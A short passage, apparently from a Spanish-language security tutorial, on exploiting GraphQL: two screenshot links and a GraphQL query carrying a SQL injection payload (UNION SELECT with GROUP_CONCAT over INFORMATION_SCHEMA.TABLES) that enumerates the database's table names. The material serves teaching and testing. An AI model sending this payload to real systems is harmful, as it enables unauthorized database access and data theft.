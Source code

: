 [![graphql14](/images/graphql14.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql14.png)

[![graphql15](/images/graphql15.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/refs/heads/master/images/graphql15.png)

Ahora construimos la consulta para enumerar los nombres de las tablas en la base de datos actual (usando un nombre de usuario inexistente):

```graphql
{"query":"{user(username: \"prueba' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema=database()-- -\") { id username msg role }}"}
```
